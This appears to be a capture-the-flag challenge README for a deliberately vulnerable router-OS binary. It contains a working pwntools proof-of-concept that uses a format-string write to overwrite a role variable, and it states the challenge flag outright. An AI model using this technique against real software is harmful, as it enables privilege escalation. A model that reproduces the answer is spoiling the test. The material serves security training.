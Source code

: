 # hutchYyOS-0.1alpha

## Category

Exploit

## Estimated difficulty

Hard

## Description

COntestant have to exploit a format string to overwrite a role in the application, once the role is overwritted they have access to a super function that give them the flag.

Build with;

```
gcc -m32 hutchYyOS.c -o hutchYyOS -lssl -lcrypto -fstack-protector-all
```

## Scenario

For F U N, I just started to create my own router OS.
Sounds fun huh?!

I really just started and I wanted to have a first security review.

Let me know if you find something weird.

## Write-up

See poc script

## PoC script

```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 127.0.0.1 --port 5000
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './pwnstation'

def send_payload(payload):
    io.recvuntil(b"Ro> ")
    io.sendline(b"3")
    io.recvuntil(b"addr: ")
    addr = io.recvline().decode().rstrip().encode()
    io.recvuntil(b"Username: ")
    io.sendline(payload)
    io.recvuntil(b": ")
    io.sendline(b"randompass")
    r = io.recvline()
    return r

def get_var_addr()->str:
    io.recvuntil(b"Ro> ")
    io.sendline(b"3")
    io.recvuntil(b"addr: ")
    addr = io.recvline().decode().rstrip().encode()
    io.recvuntil(b"Username: ")
    io.sendline(b"randomuser")
    io.recvuntil(b": ")
    io.sendline(b"randompass")
    io.recvline()
    return addr

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 5000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()


fmtoffset = FmtStr(execute_fmt=send_payload).offset
var_addr = int(get_var_addr().decode(), 16)
padding = "AAAA"+"%97"+"x"+"%10"+"x"
offset = f"%{fmtoffset+3}$n".encode()
send_payload(padding.encode()+p32(var_addr)+offset)
io.recvuntil(b"Ro> ")
io.sendline(b"4")
flag = io.recv()
log.success(flag)
#io.interactive()

```

## Flag

CSC{sUp3r_f0rm4t_str1ngs!!}

## Creator

Julian Dotreppe

## Creator bio

-
